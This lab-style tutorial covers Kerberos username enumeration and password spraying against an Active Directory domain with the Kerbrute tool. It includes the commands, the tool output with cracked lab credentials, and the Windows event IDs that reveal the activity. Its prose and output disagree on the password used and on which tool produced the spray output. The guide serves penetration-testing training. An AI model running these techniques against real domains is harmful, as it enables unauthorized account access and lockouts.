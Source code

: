 # Account Enumeration & Password Spraying with Kerberos 


It is possible to test if a username exists or if a password is valid for an account using Kerberos. Indeed, following the first request made by a user, **AS-REQ**, the domain controller can respond differently depending on whether the username presented exists or not and, if it does, whether the password is correct or not. 


This **AS-REQ** request is how the [Kerbrute](https://github.com/ropnop/kerbrute) tool performs username enumeration and password spraying. 


Bruteforcing Windows usernames and passwords with Kerberos is very fast and potentially stealthier than other methods since pre-authentication failures do not trigger that "traditional" **An account failed to log on event 4625**. With Kerberos, you can validate a username or test a login by only sending one UDP frame to the KDC (Domain Controller).


## Kerbrute Install


To install Kerbrute, we need to download the binary from [kerbrute releases](https://github.com/ropnop/kerbrute/releases/), select the latest one for Linux kerbrute_linux_amd64, and change its privileges to be executable.



![kerbrute install](/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-install.png) 



## User Enumeration 



To enumerate usernames, **Kerbrute** sends TGT requests with no pre-authentication. If the KDC responds with a **PRINCIPAL UNKNOWN** error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and move on. This does not cause logon failures, so it will not lock out any accounts. This generates a Windows event ID **4768** if Kerberos logging is enabled. For this to work, we must provide the tool with a list of usernames, the domain controller's IP or hostname, and the domain. 



### User Enumeration 


In this example, we provided **Kerbrute** with a list of 209 usernames, and 1 of them was  valid. They were all checked in 1.111s, which is very fast.


	kerbrute/kerbrute2 userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local

	    __             __               __     
	   / /_____  _____/ /_  _______  __/ /____ 
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

	Version: dev (n/a) - 01/19/24 - Ronnie Flathers @ropnop

	2024/01/19 12:47:47 >  Using KDC(s):
	2024/01/19 12:47:47 >   dc01.inlanefreight.local:88

	2024/01/19 12:47:47 >  [+] VALID USERNAME:       adam.jones@inlanefreight.local
	2024/01/19 12:47:48 >  Done! Tested 209 usernames (1 valid) in 1.111 seconds



![Kerbrute User Enum](/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-user-enum.png) 




## Password Spraying 


With **passwordspray, Kerbrute** will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. This **does increment** the failed login count and can lock out accounts. This will generate **both event IDs 4768 - A Kerberos authentication ticket (TGT) was requested, and 4771 - Kerberos pre-authentication failed**. 



### Password Spraying 


kerbrute -users users-2.txt -password 'HTBRocks!' -dc-ip 10.129.205.35 -domain inlanefreight.local
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs
                                                            
	[*] Valid user => Administrator
	[*] Blocked/Disabled user => Guest                                                                                      
	[*] Blocked/Disabled user => krbtgt
	[*] Valid user => derek.walker 
	[*] Valid user => carole.holmes
	[*] Valid user => callum.dixon 
	[*] Valid user => beth.richards
	[*] Stupendous => amber.smith:HTBRocks!
	[*] Stupendous => jenna.smith:HTBRocks!
	[*] Stupendous => carole.rose:HTBRocks!
	[*] Valid user => sqldev
	[*] Valid user => sqlprod
	[*] Valid user => sqlqa
	[*] Valid user => sql-test
	[*] Valid user => adam.jones
	[*] Valid user => jacob.kelly
	[*] Valid user => daniel.whitehead
	[*] Valid user => annette.jackson
	[*] Valid user => sandra.murphy
	[*] Valid user => debra.rogers 
	[*] Valid user => htb-student
	[*] Valid user => brian.willis
	[*] Stupendous => matilda.kens:HTBRocks!
	[*] Saved TGT in matilda.kens.ccache




In this case, we provided Kerbrute with a list of 117 usernames and the password inlanefreight2020. It was valid for four of them. 


![Password Spray](/Acct-Enum-Password-Spray-w-Kerberos/images/password-spray.png) 


